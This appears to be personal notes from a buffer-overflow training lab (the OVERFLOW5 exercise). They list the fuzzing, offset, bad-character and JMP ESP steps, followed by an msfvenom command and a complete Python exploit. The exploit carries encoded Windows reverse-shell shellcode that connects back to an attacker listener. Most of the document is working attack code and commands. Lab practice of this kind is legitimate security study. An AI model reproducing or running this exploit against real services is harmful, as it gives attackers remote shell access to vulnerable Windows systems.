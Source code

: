 ## fuzzing
![[Pasted image 20210530143105.png]]

## offset

EIP: 356B4134

offset: 314

![[Pasted image 20210530143446.png]]

## bad chars

bad chars: `\x00\x16\x2f\xf4\xfd`
![[Pasted image 20210530143823.png]]

## jmp point

`!mona jmp -r esp -cpb "\x00\x16\x2f\xf4\xfd"`

`625011AF`

little endian: `\xaf\x11\x50\x62`

## exploit

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x16\x2f\xf4\xfd"`

![[Pasted image 20210530144517.png]]

```python
import socket

ip = "10.10.171.241"
port = 1337

prefix = "OVERFLOW5 "
offset = 314
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
"\xfc\xbb\x3e\xf0\xc7\x38\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xc2\x18\x45\x38\x3a"
"\xd9\x2a\xb0\xdf\xe8\x6a\xa6\x94\x5b\x5b\xac\xf8\x57\x10\xe0"
"\xe8\xec\x54\x2d\x1f\x44\xd2\x0b\x2e\x55\x4f\x6f\x31\xd5\x92"
"\xbc\x91\xe4\x5c\xb1\xd0\x21\x80\x38\x80\xfa\xce\xef\x34\x8e"
"\x9b\x33\xbf\xdc\x0a\x34\x5c\x94\x2d\x15\xf3\xae\x77\xb5\xf2"
"\x63\x0c\xfc\xec\x60\x29\xb6\x87\x53\xc5\x49\x41\xaa\x26\xe5"
"\xac\x02\xd5\xf7\xe9\xa5\x06\x82\x03\xd6\xbb\x95\xd0\xa4\x67"
"\x13\xc2\x0f\xe3\x83\x2e\xb1\x20\x55\xa5\xbd\x8d\x11\xe1\xa1"
"\x10\xf5\x9a\xde\x99\xf8\x4c\x57\xd9\xde\x48\x33\xb9\x7f\xc9"
"\x99\x6c\x7f\x09\x42\xd0\x25\x42\x6f\x05\x54\x09\xf8\xea\x55"
"\xb1\xf8\x64\xed\xc2\xca\x2b\x45\x4c\x67\xa3\x43\x8b\x88\x9e"
"\x34\x03\x77\x21\x45\x0a\xbc\x75\x15\x24\x15\xf6\xfe\xb4\x9a"
"\x23\x50\xe4\x34\x9c\x11\x54\xf5\x4c\xfa\xbe\xfa\xb3\x1a\xc1"
"\xd0\xdb\xb1\x38\xb3\xe9\x54\x46\x93\x86\x54\x46\x30\x7e\xd0"
"\xa0\x5c\x90\xb4\x7b\xc9\x09\x9d\xf7\x68\xd5\x0b\x72\xaa\x5d"
"\xb8\x83\x65\x96\xb5\x97\x12\x56\x80\xc5\xb5\x69\x3e\x61\x59"
"\xfb\xa5\x71\x14\xe0\x71\x26\x71\xd6\x8b\xa2\x6f\x41\x22\xd0"
"\x6d\x17\x0d\x50\xaa\xe4\x90\x59\x3f\x50\xb7\x49\xf9\x59\xf3"
"\x3d\x55\x0c\xad\xeb\x13\xe6\x1f\x45\xca\x55\xf6\x01\x8b\x95"
"\xc9\x57\x94\xf3\xbf\xb7\x25\xaa\xf9\xc8\x8a\x3a\x0e\xb1\xf6"
"\xda\xf1\x68\xb3\xfb\x13\xb8\xce\x93\x8d\x29\x73\xfe\x2d\x84"
"\xb0\x07\xae\x2c\x49\xfc\xae\x45\x4c\xb8\x68\xb6\x3c\xd1\x1c"
"\xb8\x93\xd2\x34\xb8\x13\x2d\xb7"
)

postfix = ""

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```